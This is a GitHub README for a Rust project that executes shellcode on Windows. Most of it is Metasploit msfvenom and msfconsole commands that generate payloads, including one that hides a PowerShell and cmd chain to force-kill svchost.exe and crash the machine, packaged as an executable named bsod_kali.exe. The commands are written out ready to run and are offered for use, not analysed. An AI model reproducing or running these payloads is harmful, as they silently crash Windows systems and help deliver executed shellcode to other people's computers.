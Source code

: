 # ShellCodeEx

[![](https://img.shields.io/badge/platform-Windows-informational)](https://github.com/Zalexanninev15/ShellCodeEx)
[![](https://img.shields.io/badge/written_on-Rust-000000.svg?logo=rust)](https://github.com/Zalexanninev15/ShellCodeEx)
[![](https://img.shields.io/github/v/release/Zalexanninev15/ShellCodeEx)](https://github.com/Zalexanninev15/ShellCodeEx/releases/latest)
[![](https://img.shields.io/github/downloads/Zalexanninev15/ShellCodeEx/total.svg)](https://github.com/Zalexanninev15/ShellCodeEx/releases)
[![](https://img.shields.io/github/last-commit/Zalexanninev15/ShellCodeEx/main.svg)](https://github.com/Zalexanninev15/ShellCodeEx/commits/main)
[![](https://img.shields.io/github/stars/Zalexanninev15/ShellCodeEx.svg)](https://github.com/Zalexanninev15/ShellCodeEx/stargazers)
[![](https://img.shields.io/github/forks/Zalexanninev15/ShellCodeEx.svg)](https://github.com/Zalexanninev15/ShellCodeEx/network/members)
[![](https://img.shields.io/badge/license-GPLv3-ligthgreen.svg)](LICENSE)
[![](https://img.shields.io/badge/Donate-FFDD00.svg?logo=buymeacoffee&logoColor=black)](https://z15.neocities.org/donate)

## Description

My personal experiment on executing shellcode on Windows.

## Kali Linux commands for generate shellcode

### Test shellcode (need PowerShell 7 on Windows):

```bash
msfconsole -x "use payload/windows/x64/exec; set CMD 'pwsh -CommandWithArgs \"ls\" && pause'; generate -f ps1"
```

### Generate BSOD (building an executable file)

```bash
msfvenom --platform windows --arch x64 -p windows/x64/exec CMD='cmd.exe /c start /min powershell -Command "Start-Process cmd -ArgumentList \"/c taskkill /F /IM svchost.exe\" -WindowStyle Hidden"' -b '\x00\x0A\x0D' -f exe -o bsod_kali.exe
```

### Generate BSOD

```bash
> msfconsole
> use payload/windows/x64/exec
> set CMD cmd.exe /c start /min powershell -Command \"Start-Process cmd -ArgumentList \\\"/c taskkill /F /IM svchost.exe\\\" -WindowStyle Hidden\"
```

